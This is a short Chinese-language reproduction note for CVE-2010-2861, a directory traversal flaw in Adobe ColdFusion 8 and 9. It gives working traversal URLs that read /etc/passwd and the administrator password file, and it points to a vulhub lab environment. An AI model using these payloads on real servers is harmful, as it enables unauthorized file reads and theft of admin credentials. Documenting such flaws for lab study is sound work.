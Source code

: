 （CVE-2010-2861）Adobe ColdFusion 文件读取漏洞
==============================================

一、漏洞简介
------------

Adobe ColdFusion
8、9版本中存在一处目录穿越漏洞，可导致未授权的用户读取服务器任意文件。

二、漏洞影响
------------

Adobe ColdFusion 8

Adobe ColdFusion 9

三、复现过程
------------

直接访问`http://www.0-sec.org:8500/CFIDE/administrator/enter.cfm?locale=../../../../../../../../../../etc/passwd%00en`，即可读取文件`/etc/passwd`：

![](./.resource/(CVE-2010-2861)AdobeColdFusion文件读取漏洞/media/rId24.png)

读取后台管理员密码`http://www.0-sec.org:8500/CFIDE/administrator/enter.cfm?locale=../../../../../../../lib/password.properties%00en`：

![](./.resource/(CVE-2010-2861)AdobeColdFusion文件读取漏洞/media/rId25.png)

参考链接
--------

> https://vulhub.org/\#/environments/coldfusion/CVE-2010-2861/
